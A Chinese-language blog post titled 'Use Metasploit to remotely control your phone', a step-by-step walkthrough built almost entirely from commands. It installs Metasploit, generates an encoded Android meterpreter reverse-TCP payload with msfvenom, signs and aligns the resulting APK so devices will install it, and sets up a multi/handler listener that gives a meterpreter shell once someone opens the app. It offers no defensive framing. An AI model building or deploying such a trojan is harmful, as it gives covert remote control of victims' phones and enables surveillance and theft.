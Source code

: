 title: 使用Metasploit远控你的手机
categories: 干货
tags: [Metasploit,远控]
date: 2020-09-15 19:49:00
toc: true
---
# 安装MetaSploit
>我的环境是:Kubuntu20.04

一键脚本:
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall &&   chmod 755 msfinstall &&   ./msfinstall
```
然后就无了

# 生成一个远控程序
```bash
msfvenom -p android/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=10.0.0.155 LPORT=52130 -f exe > test.apk

-p 攻击载荷
-e 编码方式
-i 编码次数
-b 在生成的程序中避免出现的值
LHOST,LPORT 监听上线的主机IP和端口
-f exe 生成EXE格式
```

>我们已经成功创建了Android格式（APK）文件的有效载荷。现在一般Android的移动设备不允许安装没有适当签名证书的应用程序。 Android设备只安装带有签署文件的APK。

我们可以使用如下工具进行手动签名：
>Keytool (已安装)
>jarsigner (需要安装)
>zipalign (需要安装)

执行下列命令签名。首先使用密钥工具创建密钥库。
```bash
keytool -genkey -v -keystore my-release-key.Keystore -alias wdnmd -keyalg RSA -keysize 2048 -validity 10000
```
然后使用JARsigner签名APK
```bash
apt install openjdk-14-headless #安装Java

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.Keystore test.apk wdnmd #签名APK

jarsigner -verify -verbose -certs test.apk #验证签名
```
使用zipalign优化APK
```bash
apt install zipalign #安装zipalign
zipalign -v 4 test.apk NEWtest.apk
```
#使用Metasploit进行测试
接下来启动metasploit的监听器。执行`msfconsole`打开控制台
```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 10.0.0.155
set lport 52130
exploit
```
如有人打开**NEWtest.apk(MainActivity.apk)**时，则会出现等待输入界面
```bash
meterpreter >
```
输入`help`获得帮助